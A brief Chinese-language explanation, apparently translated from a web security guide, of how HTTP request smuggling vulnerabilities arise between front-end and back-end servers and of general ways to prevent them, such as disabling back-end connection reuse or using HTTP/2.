如果前端服务器通过同一网络连接将多个请求转发到后端服务器，并且后端连接所使用的协议承担着两个服务器不同意边界之间的风险，则会出现HTTP请求走私漏洞。要求。防止HTTP请求走私漏洞的一些通用方法如下：

- 禁用后端连接的重用，以便每个后端请求通过单独的网络连接发送。
- 使用HTTP / 2进行后端连接，因为此协议可防止对请求之间的边界产生歧义。
- 前端服务器和后端服务器使用完全相同的Web服务器软件，以便它们就请求之间的界限达成一致。

在某些情况下，可以通过使前端服务器规范化歧义请求或使后端服务器拒绝歧义请求并关闭网络连接来避免漏洞。但是，这些方法比上面确定的通用缓解措施更容易出错。